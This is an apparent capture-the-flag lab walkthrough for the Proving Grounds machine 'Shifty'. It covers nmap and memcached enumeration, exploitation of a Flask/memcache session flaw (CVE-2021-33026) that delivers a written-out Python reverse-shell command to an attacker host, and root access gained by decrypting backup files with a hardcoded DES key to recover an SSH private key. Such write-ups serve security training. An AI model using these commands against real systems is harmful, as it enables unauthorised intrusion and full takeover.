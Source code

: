 #### Enumeration

Nmap

```
# Nmap 7.91 scan initiated Thu Dec 16 11:54:44 2021 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/kali/Documents/OffSecPG/Shifty/AutoRecon/results/192.168.55.59/scans/_full_tcp_nmap.txt -oX /home/kali/Documents/OffSecPG/Shifty/AutoRecon/results/192.168.55.59/scans/xml/_full_tcp_nmap.xml 192.168.55.59
adjust_timeouts2: packet supposedly had rtt of -1208241 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -1208241 microseconds.  Ignoring time.
Nmap scan report for 192.168.55.59
Host is up, received user-set (0.20s latency).
Scanned at 2021-12-16 11:54:45 EST for 371s
Not shown: 65530 filtered ports
Reason: 65530 no-responses
PORT      STATE  SERVICE   REASON         VERSION
22/tcp    open   ssh       syn-ack ttl 63 OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 54:d8:d1:1a:e4:8c:66:48:37:ba:89:0a:9b:aa:db:47 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDSh58OLDmEhil0VmRkmNcijtg4KD/oQ4nP9I7PoS4uoangXCXpjJhuzsZJdKodqIRnp3G33o9HaRvx7LtIMPwl3cGcFNIDR9v+PDhDPgMKyRRJ48kdu3q0krzOWRvYnUEyLYjqDfb8VwBemuFA+gefLrMZLrLhhvArOG69zSCAOwKIC8MpQb+btXjU8c3QM6zKMX4XiEE5MM+TihshX/kJT8GgpJxzc+kXPuRgUkP5dgfQjgSsGos7UdHIGTStL4G2u9gXRj2KvamLZrWugN7onR1oMikWnbIki2OY6q4yn7aRo4RcXh4D9a+/L57R8oekVN4WEdGld2OBLzGCNQ89
|   256 fb:75:84:86:ec:b5:00:f3:4f:cb:c8:f2:18:85:42:b7 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMTUc/WfFpP13Cs+MfoVp8EAwjODshXOpOBYCLG/SrFn5k1xSZVmqM3BVE/Dm2/AMOQGSmYzhMwUOj3rYuwnhWE=
|   256 2f:fd:b2:b1:6c:02:e8:a0:ba:e7:f7:52:80:3f:de:a3 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAoY388QpNieLBhyB714K9LnjTUPfbgw4bfpGgdMBT0c
53/tcp    closed domain    reset ttl 63
80/tcp    open   http      syn-ack ttl 63 nginx 1.10.3
|_http-generator: Gatsby 2.22.15
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.10.3
|_http-title: Gatsby + Netlify CMS Starter
5000/tcp  open   http      syn-ack ttl 63 Werkzeug httpd 1.0.1 (Python 3.5.3)
| http-methods: 
|_  Supported Methods: HEAD OPTIONS GET
|_http-server-header: Werkzeug/1.0.1 Python/3.5.3
|_http-title: Hello, world!
11211/tcp open   memcached syn-ack ttl 63 Memcached 1.4.33 (uptime 20753 seconds)
OS fingerprint not ideal because: maxTimingRatio (2.592000e+00) is greater than 1.4
Aggressive OS guesses: Linux 3.11 - 4.1 (93%), Linux 3.16 (91%), Linux 4.4 (91%), Linux 3.13 (88%), Linux 3.2 - 3.8 (87%), Linux 3.8 (87%), WatchGuard Fireware 11.8 (87%), Linux 3.10 - 3.16 (87%), Linux 3.10 - 3.12 (86%), Linux 2.6.32 (86%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.91%E=4%D=12/16%OT=22%CT=53%CU=%PV=Y%DS=2%DC=T%G=N%TM=61BB70C8%P=x86_64-pc-linux-gnu)
SEQ(SP=106%GCD=1%ISR=105%TI=Z%TS=8)
OPS(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11NW7%O6=M506ST11)
WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)
ECN(R=Y%DF=Y%TG=40%W=7210%O=M506NNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
T5(R=Y%DF=Y%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=N)
T7(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=40%CD=S)

Uptime guess: 0.230 days (since Thu Dec 16 06:30:11 2021)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   224.76 ms 192.168.49.1
2   224.85 ms 192.168.55.59

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 16 12:00:56 2021 -- 1 IP address (1 host up) scanned in 372.78 seconds

```

I do not find the available vulnerability on the port 80 and 5000 website, so start checking service on 11211 port.

After a quick searching I understand the use of memcache. Installing the tools to help to easy get the information from memcache service.

```
sudo apt install libmemcached-tools
```

The stat command can show us some access information, but nothing useful.

```
memcstat --servers=192.168.100.59
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Shifty/Shifty_2022.01.01_13h41m57s_001_.png)


Next we try to get the website store items, but it doesn't return anything back.

```
memcdump --servers=192.168.100.59
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Shifty/Shifty_2022.01.01_13h52m35s_002_.png)

We have to browse the website on port 5000 first and it will generate the session.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Shifty/Shifty_2022.01.01_14h00m00s_003_.png)

I was stuck here for a long time and then I accidentally noticed that this is a demo site made with FLASK, so I tried to search for FLASK, memcache and exploit as keywords and found vulnerability [CVE-2021-33026](https://github.com/CarlosG13/CVE-2021-33026).

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Shifty/Shifty_2022.01.01_14h01m53s_004_.png)

Following the instructions for using the vulnerability We try to send the remote shell command.

```
python3 cve-2021-33026_PoC.py --rhost 192.168.100.59 --rport 5000 --cmd "python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.49.100\",11211));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\"/bin/sh\")'" --cookie "session:f246b931-de84-4794-ba25-59c4bd3835df" 
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Shifty/Shifty_2022.01.01_14h28m16s_005_.png)

Successfully obtained shell.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Shifty/Shifty_2022.01.01_14h28m41s_006_.png)

#### Privilege Escalation

(Reference official walkthrough)

The ```/opt/backups/backup.py``` file contains hardcoded key.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Shifty/Shifty_2022.01.01_22h58m08s_007_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Shifty/Shifty_2022.01.01_23h08m17s_008_.png)

Creating decrypt script file.

```
import sys
from des import des, CBC, PAD_PKCS5

k = des(b"87629ae8", CBC, b"\0\0\0\0\0\0\0\0", pad=None, padmode=PAD_PKCS5)
with open('/opt/backups/data/{}'.format(sys.argv[1])) as f:
    data = f.read()
    print(k.decrypt(data))
```

We need des file to execute the decrypt script. 

```
cp /opt/backups/des.py /tmp/des.py
```

Decrypting backup files.

```
python decrypt.py 31328fa57f5c504df041f7f4f45498c766c0d12c33f78f33cff66bca
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Shifty/Shifty_2022.01.01_23h17m59s_009_.png)

It's a SSH private key.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Shifty/Shifty_2022.01.01_23h21m20s_010_.png)

Using this SSH key for authentication.

```
chmod 400 id_rsa

ssh -i id_rsa root@192.168.134.59
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Shifty/Shifty_2022.01.01_23h31m38s_011_.png)
